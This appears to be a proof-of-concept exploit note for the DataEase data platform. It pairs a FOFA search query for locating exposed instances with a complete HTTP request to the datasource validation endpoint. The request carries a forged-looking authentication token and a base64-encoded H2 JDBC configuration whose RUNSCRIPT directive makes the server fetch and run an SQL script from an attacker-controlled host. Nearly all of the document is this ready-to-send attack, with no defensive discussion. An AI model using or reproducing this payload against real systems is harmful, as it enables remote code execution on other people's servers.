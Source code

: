 fofa语法：title="DataEase"

poc:
"POST /de2api/datasource/validate HTTP/1.1
Host: your-ip
Accept-Encoding: gzip, deflate, br, zstd
sec-ch-ua: ""Google Chrome"";v=""135"", ""Not-A.Brand"";v=""8"", ""Chromium"";v=""135""
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: application/json, text/plain, */*
X-DE-TOKEN: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1aWQiOjEsIm9pZCI6MX0.a5QYOfZDYlhAy-zUMYzKBBvCUs1ogZhjwKV5SBTECt8
Accept-Language: zh-CN
Sec-Fetch-Dest: empty
sec-ch-ua-mobile: ?0
Sec-Fetch-Site: same-origin
sec-ch-ua-platform: ""Windows""
Content-Type: application/json
Sec-Fetch-Mode: cors
Content-Length: 821

{
    ""id"": """",
    ""name"": ""11"",
    ""description"": """",
    ""type"": ""h2"",
    ""apiConfiguration"": [],
    ""paramsConfiguration"": [],
    ""enableDataFill"": false,
    ""configuration"": ""eyJkYXRhQmFzZSI6IiIsImpkYmMiOiJqZGJjOmgyOm1lbTp0ZXN0ZGI7VFJBQ0VfTEVWRUxfU1lTVEVNX09VVD0zO2luaXQ9UlVuU0NSSVBUIEZST00gJ2h0dHA6Ly95b3VyLXZwczoyMzMzL3BvYy5zcWwnIiwidXJsVHlwZSI6ImpkYmNVcmwiLCJzc2hUeXBlIjoicGFzc3dvcmQiLCJleHRyYVBhcmFtcyI6IiIsInVzZXJuYW1lIjoiMTIzIiwicGFzc3dvcmQiOiIxMjMiLCJob3N0IjoiIiwiYXV0aE1ldGhvZCI6IiIsInBvcnQiOjAsImluaXRpYWxQb29sU2l6ZSI6NSwibWluUG9vbFNpemUiOjUsIm1heFBvb2xTaXplIjo1LCJxdWVyeVRpbWVvdXQiOjMwfQ==""
}"
